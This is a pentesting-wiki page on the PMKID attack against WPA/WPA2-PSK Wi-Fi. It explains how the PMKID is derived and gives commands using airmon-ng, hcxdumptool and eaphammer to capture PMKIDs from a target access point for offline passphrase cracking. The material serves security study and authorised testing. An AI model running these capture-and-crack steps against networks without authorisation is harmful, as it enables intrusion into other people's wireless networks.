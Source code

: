 <figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

**[Follow HackenProof](https://bit.ly/3xrrDrL) to learn more about web3 bugs**

🐞 Read web3 bug tutorials

🔔 Get notified about new bug bounties

💬 Participate in community discussions



## WPA/WPA2 PSK

### PMKID

In 2018 hashcat authors [disclosed](https://hashcat.net/forum/thread-7717.html) a new type of attack which not only relies **on one single packet**, but it doesn’t require any clients to be connected to our target AP but just communication between the attacker and the AP.

It turns out that **a lot** of modern routers append an **optional field** at the end of the **first EAPOL** frame sent by the AP itself when someone is associating, the so called `Robust Security Network`, which includes something called `PMKID`

As explained in the original post, the **PMKID** is derived by using data which is known to us:

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Since the “PMK Name” string is constant, we know both the BSSID of the AP and the station and the `PMK` is the same one obtained from a full 4-way handshake**, this is all hashcat needs in order to crack the PSK and recover the passphrase!\
Description obtained from [here](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/).

To **gather** this information and **bruteforce** locally the password you can do:

```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
